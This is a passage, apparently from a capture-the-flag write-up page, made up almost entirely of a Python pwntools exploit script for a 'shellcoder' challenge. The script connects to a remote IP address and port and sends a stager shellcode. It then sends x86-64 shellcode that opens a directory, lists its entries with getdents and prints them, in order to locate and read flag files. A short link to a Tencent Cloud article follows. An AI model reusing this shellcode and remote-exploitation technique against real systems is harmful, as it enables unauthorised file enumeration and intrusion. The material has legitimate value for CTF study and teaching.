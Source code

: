 ```python
			f.append(data[d+0x12:d+0x12+namelen])
		d+=reclen
	return res,f
def push_path(path):
	d=0
	l=len(path)
	path+=(-l%8)*'\x00'
	pad='''
	mov rsi,{}
	push rsi	
	'''
	res=''
	while(d<len(path)):
		res=pad.format(hex(u64(path[d:d+8])))+res
		d+=8
	return res
def exp(seek,flag=0):	
	#context.log_level='debug'
	#p=process('./shellcoder')
	#gdb.attach(p)
	p=remote("139.180.215.222",20002)
	context.arch='amd64'
	sh='''
	xchg rdi,rsi
	mov edx,esi
	syscall
	'''
	sh=asm(sh)
	p.sendafter(":",sh)


	#print push_path("./flag")
	#raw_input()
	sh='''
	mov ax,0x101
	mov rdi,-0x64
	{}
	mov rsi,rsp
	mov rdx,0
	mov r10,0
	syscall

	mov rdi,rax
	mov rsi,rsp
	mov rdx,0x200
	xor rax,rax
	mov al,78
	syscall

	mov rdi,1
	mov rsi,rsp
	mov rdx,0x400
	xor rax,rax
	mov al,1
	syscall
	'''.format(push_path(seek))
	p.send("\x90"*0x7+asm(sh))
	data=p.read()
	p.close()
	r,f=getinfo(data,flag)
	p.close()
	return r,f

```

[2]: https://cloud.tencent.com/developer/article/1143454